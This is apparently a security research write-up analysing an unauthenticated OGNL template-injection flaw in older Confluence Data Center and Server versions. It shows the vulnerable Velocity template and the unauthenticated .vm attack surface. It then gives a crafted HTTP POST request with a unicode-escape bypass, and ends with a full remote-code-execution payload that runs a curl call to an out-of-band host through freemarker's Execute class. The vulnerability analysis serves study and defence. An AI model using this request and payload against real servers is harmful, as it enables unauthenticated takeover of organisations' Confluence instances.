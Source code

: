 # Overview

### Initial Analysis

A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action. Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates.

![alt text](/Research_CVE/images/image.png)

Inspecting files that had OGNL-related changes and potential vulnerabilities like dangerous sinks leading to OGNL Injection, such as ``findValue`` and ``translateVariables``, among others. 

### Patch

![alt text](/Research_CVE/images/image-9.png)

# Analysis

### Vulnerable code

```
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

### Identifying the Unauthenticated Attack Surface

The actual "views" in Confluence are rendered using Velocity template files. They can be accessed by hitting ``*.vm`` files, and they continue render even user no need to authenticate.

After that, searching for template files that accepted ``$parameters`` and then passed them to potentially dangerous sinks. We identified several files that directly passed the parameter values to ``$ognl.findValue`` or ``$stack.findValue``. For instance, one such file is ``confluence/template/xhtml/pagelist.vm``:

```java
#set ($pageList = $stack.findValue($parameters.pages))
```

Set up a breakpoint to debug at ``findValue``. However, when we attempted to access ``/confluence/template/xhtml/pagelist.vm`` with ``pages`` param, was not triggered.

Maybe ``$parameters.pages`` be sent by an Object instead string. Add the double quotes around ``$parameters.pages``. It would be worked.

```java
#set ($pageList = $stack.findValue("$parameters.pages"))
```

Next, look for any ``findValue`` that take in ``$parameters`` inside double quotes. And we found ``confluence/template/aui/text-inline.vm``.

```java
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
```

### OGNL

Next, we put a breakpoint on ``getText`` as well to be sure we are able to reach there and It worked. 

![alt text](/Research_CVE/images/image-5.png)

Next, breaking out of the ``getText`` function and append our OGNL expression ``#{3*33}`` but it was HTML encoded. Use some trick like unicode escapes to break out and it worked.

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

![alt text](/Research_CVE/images/image-6.png)

### RCE via OGNL injection

According to [bypass OGNL](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)-,For%20Velocity%3A,-.KEY_velocity.struts2.context) we have the payload ``\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})``.



